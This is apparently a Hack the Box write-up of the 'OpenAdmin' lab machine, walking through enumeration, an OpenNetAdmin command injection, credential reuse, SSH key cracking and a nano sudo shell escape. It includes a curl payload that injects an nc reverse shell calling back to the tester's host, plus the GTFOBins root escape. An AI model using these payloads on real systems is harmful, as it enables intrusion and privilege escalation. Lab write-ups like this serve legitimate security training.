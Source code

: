 ```yaml
---
title: OpenAdmin
tags: linux
description: Write-up for Hack the Box - OpenAdmin
---
```


![image](assets/83579642-d2e81280-a507-11ea-80f3-62eaf5fec9b8.png)

## Overview

OpenAdmin is an Ubuntu box running an apache webserver. It hosts various example sites and OpenNetAdmin that was vulnerable to an unauthenticated remote code execution which I used to create a reverse shell to get initial foothold. Some enumeration of the /var/www folder revealed a password which was used to ssh into the target as the user jimmy. I discovered a webserver that was only accessible internally that was hosting files out of /var/www/internal. This folder contained a php file with a hardcoded password hash which I able to easily lookup with an internet search. I created a local port forward to my box where I was able to access the website and log in. The page displayed an encrypted rsa private key which I cracked with john the ripper to gain the password. With the private key I successfully logged in with joanna who was able to run sudo with no password, due to a vulnerability in nano I was able escalate my privileges to root.

## Enumeration

**Software**

* Ubuntu 18.04.3 LTS 
* OpenNetAdmin v18.1.1

**Port Scan**

```
nmap -sT -p- -v -Pn 10.10.10.171 -oN /home/kali/boxes/openadmin
```

* 22/tcp - ssh
* 80/tcp - http - /ona, OneNetAdmin v18.1.1

**Directory/File Scan**

```
gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html -t 40
```

* /music
* /index.html
* /artwork
* /sierra
* /server-status
* /ona (found manually)

## Steps (user)

Browsing to http://10.10.10.171 shows the default Apache2 page. 

![image](assets/83579855-66214800-a508-11ea-9174-e778ec66c80c.png)

After manually reveiwing the results from the gobuster scan it looked this box was hosting various example webpages. Clicking Login on http://10.10.10.171/music redirected me to http://10.10.10.171/ona which brought me to an OpenNetAdmin page.

![image](assets/83583694-08dec400-a513-11ea-9e3f-e30e9f0dd3fa.png)

I did an internet search and found that the default credentials for OpenNetAdmin were admin:admin. I tried those on the target and successfully logged in as the admin account. Once logged in I went to menu | ona | about and noted the version.

![image](assets/83583779-43e0f780-a513-11ea-9da7-9916acdaa2e1.png)

Doing a search in searchsploit for opennetadmin showed 3 results, two of these were for the same version as the target v18.1.1, and one was metasploit so I went with 47691.

![image](assets/83583592-bdc4b100-a512-11ea-8f6b-f2bd72e27176.png)

Reviewing the exploit shows a pretty simple command shell uring curl to send a post request.

```
searchsploit -x 47691
```

![image](assets/83583960-c36ec680-a513-11ea-80a9-d11d2a0183c7.png)

The exploit creates a cmd shell but it's pretty limiting so I copied the string from the exploit and in between **ip%3D%#E** and **&xajaxargs[]=ping"** I added a bash command that creates a reverse shell (url encoded). I started up a netcat listner on my box (nc -lvnp 4200) and ran the command.

```
curl -S -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;rm+/tmp/z%3bmkfifo+/tmp/z%3bcat+/tmp/z|/bin/sh+-i+2>%261|nc+10.10.14.26+4200+>/tmp/z&xajaxargs[]=ping" "http://10.10
.10.171/ona/"
```

I received a callback and shell as www-data

![image](assets/83585455-e56a4800-a517-11ea-8736-913c2429eaad.png)

After doing some enumeration of the /var/www/ona directory I came across some credentials in a file called database_settings.inc.php in the /var/www/ona/local/config folder - **ona_sys:n1nj4W4rri0R!**

```
<?php                   
$ona_contexts=array (   
  'DEFAULT' =>          
  array (               
    'databases' =>      
    array (             
      0 =>              
      array (           
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),                
    ),                  
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),                    
);          
```
I wasn't able to log into mysql but I was able to login via ssh as jimmy using the n1nj4W4rri0R! password.

> Note: The user flag was not present for this user

In the /var/www/ I found a folder called "internal" that was owned by Jimmy. This folder contained a file called main.php which had some php code that compared the password against a password hash for authentication. 

![image](assets/83586702-2e6fcb80-a51b-11ea-839d-ccf2de14f381.png)

I did an internet search for the hash and found a [site](https://md5hashing.net) that had hashed it already - **Revealed**

![image](assets/83586919-b3f37b80-a51b-11ea-91b0-059ce2595766.png)

Running netstat showed that the target was listening on an odd port 52846 via the loopback address.

![image](assets/83587360-ebaef300-a51c-11ea-8bc6-98b76ae4b9fc.png)

I ran a GET request with curl and confirmed that it was a web server.

```
curl --head http://127.0.0.1:52846
```

![image](assets/83587761-d5edfd80-a51d-11ea-9491-df0fc650f440.png)


I created a local port forward so I could browse to the site from my box.

```
ssh jimmy@10.10.10.171 -p 22 -L52846:127.0.0.1:52846
```

I browsed to http://127.0.0.1:52846 and logged in with **jimmy:Revealed**

![image](assets/83587885-1d748980-a51e-11ea-94de-339d9429dd97.png)

After logging in an encrypted RSA private key is displayed on the page along with the text "Don't forget your 'ninja' password"

![image](assets/83588035-83611100-a51e-11ea-8436-391b09cc22f6.png)

I copied the private key and converted it to John format 

```
/usr/share/john/ssh2john.py id_rsa_enc  > id_rsa_crack
```

I used John the Ripper and the rockyou wordlist to crack the password and was successful, the password was **bloodninjas**

```
john id_rsa_crack --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](assets/83588536-a50ec800-a51f-11ea-9879-1262a8ea8dbf.png)

I removed the password from id_rsa_enc using the following command, specifying bloodninjas as the password.

```
openssl rsa -in id_esa_enc -out id_rsa
```

![image](assets/83588645-d8515700-a51f-11ea-8dd1-0d7d8dada3aa.png)

I set the appropriate permissions on id_rsa (chmod 600 id_rsa) and was able to log in to with the account "joanna"

```
ssh -i id_rsa joanna@10.10.10.171
```

![image](assets/83588782-1cdcf280-a520-11ea-85a5-4020969d3930.png)

## Steps (root/system)

One of the first things I do is run sudo -l which lists the allowed commands for the user. The output of this command showed that joanna can use nano to open a specific file, /opt/priv with no password.

> [sudo](https://linux.die.net/man/8/sudo) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy.

![image](assets/83588916-6a595f80-a520-11ea-8ebd-509fcfe79193.png)

Looking up nano on [GTFOBins](https://gtfobins.github.io/) shows that there is a shell escape for nano.

![image](assets/83589174-156a1900-a521-11ea-9c28-0a5f3c3abd37.png)

```
^R^X then reset; sh 1>&0 2>&0
```

Running 'sudo /bin/nano /opt/priv' and the sequence of commands provided by GTFOBins gave me a root shell.

![image](assets/83589266-4b0f0200-a521-11ea-9aa6-0942ea74a2ca.png)


